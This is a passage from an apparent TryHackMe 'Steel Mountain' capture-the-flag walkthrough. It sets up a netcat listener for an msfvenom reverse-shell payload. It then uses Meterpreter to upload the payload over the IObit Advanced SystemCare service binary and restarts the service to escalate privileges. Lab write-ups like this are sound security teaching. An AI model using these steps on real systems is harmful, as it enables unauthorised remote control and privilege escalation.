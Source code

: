 <br />

Set up an active `netcat` listener locally using the same local port value we assigned to the `msfvenom` payload.

```
nc -lvnp LOCAL_PORT
```

<br />

Now stop the running service on the target and replace it with the payload we created. 

```
meterpreter > cd C:\\Program\ Files\ (x86)\\IObit\\Advanced\ SystemCare\\
meterpreter > upload /root/TryHackMe/Machines/Steel\ Mountain/ASCService.exe
[*] uploading  : /root/TryHackMe/Machines/Steel Mountain/ASCService.exe -> ASCService.exe
[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /root/TryHackMe/Machines/Steel Mountain/ASCService.exe -> ASCService.exe
[*] uploaded   : /root/TryHackMe/Machines/Steel Mountain/ASCService.exe -> ASCService.exe
meterpreter > shell
Process 2968 created.
Channel 6 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\IObit\Advanced SystemCare>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 144
        FLAGS              :
```

<br />
